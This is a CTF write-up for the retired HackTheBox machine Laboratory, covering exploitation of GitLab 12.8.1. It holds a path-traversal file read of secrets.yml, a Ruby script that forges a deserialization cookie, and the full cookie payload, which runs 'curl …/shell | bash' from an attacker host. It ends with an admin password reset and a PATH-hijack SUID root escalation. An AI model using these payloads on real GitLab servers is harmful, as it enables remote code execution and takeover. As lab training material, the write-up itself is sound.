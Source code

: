 ```yaml
---
title: HackTheBox - Laboratory Writeup
subtitle: Here's my writeup for the RETIRED machine Laboratory, Which is an Easy Linux machine!
summary: Here's my writeup for the RETIRED machine Laboratory, Which is an Easy Linux machine!
date: '2021-07-17'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'easy']
tags: ['HackThebox', 'Linux','easy']
image: /assets/img/htb-Laboratory/featured.png
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan 
```bash
sudo nmap -sC -sV 10.10.10.216 -v
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 ports open:

- ssh: 22 running OpenSSH 8.2p1 
- http: 80 running Apache httpd 2.4.41
- https: 443 running Apache httpd 2.4.41

2 Domains: 
- laboratory.htb
- git.laboratory.htb
---

## Web Enumeration

> After adding laboratory.htb & git.laboratory.htb to /etc/hosts

Let's check laboratory.htb first

<img src="/assets/img/htb-Laboratory/users.png">

We got 2 usernames:
- Dexter
- DeeDee Dee_Dee .. 

> Skipping Gobuster scans, as it gave me nothing interesting

Seems like it's a static website, nothing much to see! 

Let's move to git.laboratory.htb

<img src="/assets/img/htb-Laboratory/gitlab.png">

Tried few logins but it failed, ( dexter:admin dexter:password )

Let's create our own account and see what we can do

<img src="/assets/img/htb-Laboratory/reg.png">

`GitLab Community Edition 12.8.1`

<img src="/assets/img/htb-Laboratory/git_ver.png">

---

# Initial foothold 

> I think there are ready-to-use scripts to exploit this gitlab version, but we'll do the process manually! 

Bascially we're gonna abuse arbitrary file read via the UploadsRewriter when moving an issue, and get the `secret_key_base` from /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml then generate the cookie payload via our own gitlab instance with the key that we got!
> If you wanna read more about this exploit: https://hackerone.com/reports/827052

Let's now try to read /etc/passwd from the box

- Let's first create 2 projects

<img src="/assets/img/htb-Laboratory/pro.png">

- Let's create an issue in one of these projets 

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

<img src="/assets/img/htb-Laboratory/passwd.png">

- Let's now move it to the other project

<img src="/assets/img/htb-Laboratory/move.png">
<img src="/assets/img/htb-Laboratory/passwd1.png">
And we get the file!
<img src="/assets/img/htb-Laboratory/passwd2.png">


Now let's repeat the same thing to get /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```
<img src="/assets/img/htb-Laboratory/secret.png">

Let's now setup our gitlab env!

> You can either download the gitlab package or use docker

For this, I am going to use docker! First let's pull the image

```bash
sudo docker -D pull gitlab/gitlab-ce:12.8.1-ce.0
```
then run it !

```bash
sudo docker run -it gitlab/gitlab-ce:12.8.1-ce.0 sh
```

<img src="/assets/img/htb-Laboratory/docker.png">

> PS: `id` command ; force of habit xD

Let's run 

```bash
gitlab-ctl reconfigure
```
Let's change the /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml file with the one that we got!
Now, let's run

```bash
gitlab-ctl restart
gitlab-rails console
```
Here in the console, we'll craft our cookie to gain access!


Our payload to craft it:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl http://10.10.14.3:8000/shell | bash` %>") 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

<img src="/assets/img/htb-Laboratory/cookie.png">

Final payload:

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4zOjgwMDAvc2hlbGwgfCBzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--a9181bfd8d26c33c9cf0c6fedcff269a3685902b" -k
```

Let's set a listener, and grab that shell

<img src="/assets/img/htb-Laboratory/foothold.png">

---

# User PrivEsc

So now we're on a docker container as the **git** user!
The trick now is to change the gitlab's admin (who is id=1) password

Going through gitlab's docs to get the right syntax
https://docs.gitlab.com/ee/security/reset_user_password.html

It may take a while to run
```bash
gitlab-rails console -e production
```
```ruby
user = User.find(1)
user.password = 'password123'
user.password_confirmation = 'password123'
user.save!
```
<img src="/assets/img/htb-Laboratory/dexterpass.png">

Let's login now with his account

<img src="/assets/img/htb-Laboratory/projects.png">

There is a private repo that contains his home directory backup!

<img src="/assets/img/htb-Laboratory/ssh.png">

Let's copy his ssh private key and get into the box!

<img src="/assets/img/htb-Laboratory/user.png">

---

# Root PrivEsc 

Let's first run Linpeas!
Going through the output, we can see that there is unusual suid binary
<img src="/assets/img/htb-Laboratory/suid.png">

let's run Ltrace on this binary

<img src="/assets/img/htb-Laboratory/ltrace.png">

We can abuse this binary, by creating a fake malicious chmod binary 

```bash
echo "/bin/bash -p" > /tmp/chmod
chmod 777 /tmp/chmod
export PATH=/tmp:$PATH
```
Then we run the binary!

<img src="/assets/img/htb-Laboratory/root.png">
And we rooted the box!